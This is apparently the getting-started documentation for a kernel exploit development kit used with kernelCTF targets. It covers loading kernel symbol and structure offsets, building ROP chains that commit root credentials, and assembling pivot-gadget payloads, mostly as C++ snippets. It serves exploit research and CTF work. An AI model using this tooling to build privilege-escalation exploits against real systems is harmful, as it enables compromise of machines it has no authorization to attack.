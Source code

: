 # How to get started

## Initialize the Target Database

The target database contains all of the information needed to customize the exploit for the current target.

This section describes how to use the prebuilt database, extend it if necessary and how to make it replaceable with an updated version.

1. Add the necessary includes to the exploit code.

    ```c++
    #include <xdk/core.h>
    #include <xdk/postrip.h>
    ```

2. Include the **target_db**. `INCBIN` creates a read-only section in the exploit binary with the current target database content.

    ```c++
    INCBIN(target_db, "target_db.kxdb");
    ```

3. Initialize **TargetDb**. This constructor uses the `target_db.kxdb` file if exists, otherwise it fallbacks to the compile-time `INCBIN`'d database. This way, the exploit can be customized for running on other targets by supplying another `target_db.kxdb` after compilation time.

    ```c++
    TargetDb kxdb("target_db.kxdb", target_db);
    ```

4. Already available in database structure and symbol offsets are documented in `kxdb_tool/config.py`.
They are added for all the supported targets.

5. If the needed symbol is not in database, use `Target` object to add it. One object per target needed. For example:

    ```c++
    Target st("kernelctf", "cos-105-17412.294.34");

    st.AddSymbol("nft_last_ops", 0x1acaf20);

    kxdb.AddTarget(st);
    ```

6. Similar approach could be taken for adding structure and fields information:

    ```c++
    Target st("kernelctf", "cos-105-17412.294.34");

    st.AddStruct("nft_expr_ops", 128, {
        {"dump", 64, 8},
        {"type", 120, 8} });

    kxdb.AddTarget(st);
    ```

    > **Note**
    > `128` in the example above is a size of the `nft_expr_ops` structure. `{"dump", 64, 8}` field is located at the offset of 64 and as is a pointer, size would be 8 for 64-bit architecture.

7.  Detect which target the exploit is being run on.

    ```c++
    auto target = kxdb.AutoDetectTarget();
    printf("[+] Running on target: %s %s\n", target.GetDistro().c_str(), target.GetReleaseName().c_str());
    ```

8. Access pre-defined or added (via `Target`) structures and symbols using following calls:

    ```c++
    auto offset = target.GetStructSize("nft_expr_ops") + target.GetFieldOffset("nft_expr_ops", "type"); // get the size and offset of type field in nft_expr_ops structure

    *(uint64_t *)&buffer[offset] = kernel_base + target.GetSymbolOffset("nft_last_ops"); // the address of nft_last_ops
    ```

## Building the Payload

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1. Initialize a `Payload` object. This will serve as the buffer for our ROP chain and other necessary data.

    ```c++
    Payload payload(1024);
    ```

2. If the payload contains constants / areas that should not be overwritten by `PayloadBuilder`, mark them as reserved:

   ```c++
   payload.Reserve(0, 8);
   ```

   > **Note**
   > Reserves 8 bytes at offset 0.

3. Create the `RopChain`. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The `Ret2Usr` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    ```c++
    RopChain rop(target, kaslr_base);
    rop.AddRopAction(RopActionId::COMMIT_INIT_TASK_CREDS);
    RopUtils::Ret2Usr(rop, (void*)win);
    ```

    > **Note**
    > Available ROP actions could be found in `kxdb_tool/config.py`.

## Assembling the Final Payload with PayloadBuilder

The `PayloadBuilder` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1. Initialize the `PayloadBuilder` with the target's available pivot gadgets and the KASLR base.

    ```c++
    PayloadBuilder builder(target.pivots, kaslr_base);
    ```

2. Add the `payload` object to the builder. You need to specify which register will point to your payload buffer (e.g., `Register::RSI`) and the offset within that buffer where the instruction pointer (`rip`) will be hijacked.

    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, Register::RSI, rip_off);
    ```

    In the situation when multiple registers contain a pointer to the payload, it's worth informing `PayloadBuilder` about it:
    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, {Register::RSI, Register::RAX}, rip_off);
    ```

    `PayloadBuilder` is capable of handling multiple buffers (and use them if needed to accomodate ROP chain actions). To inform `PayloadBuilder` about such a setup use:
    ```c++
    Payload payload1(payload_size_1);
    Payload payload2(payload_size_2);
    PayloadBuilder builder(target.pivots, kernel_base); // create builder

    builder.AddPayload(payload1, std::nullopt, std::nullopt);
    builder.AddPayload(payload2, Register::RSI, rip_off); // add payload, with register, and rip_offset
    ```

3. Add the `RopChain` to the builder.

    ```c++
    builder.AddRopChain(rop);
    ```

4. Build the final payload. The `Build()` method will find an appropriate pivot gadget that uses the specified register (`RSI` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the `payload` object you provided earlier.

    ```c++
    if(!builder.Build())
        exit(-1);
    ```

    Once built, the `payload` object contains the complete, ready-to-use exploit payload.

5. In cases when pointer to pivot gadget should be part of some other buffer or passed as a parameter it could be obtained in the following way after building the final payload:

   ```c++
    *(uint64_t *)&some_buffer[offset] = kernel_base + builder.GetStackPivot().GetGadgetOffset();
   ```

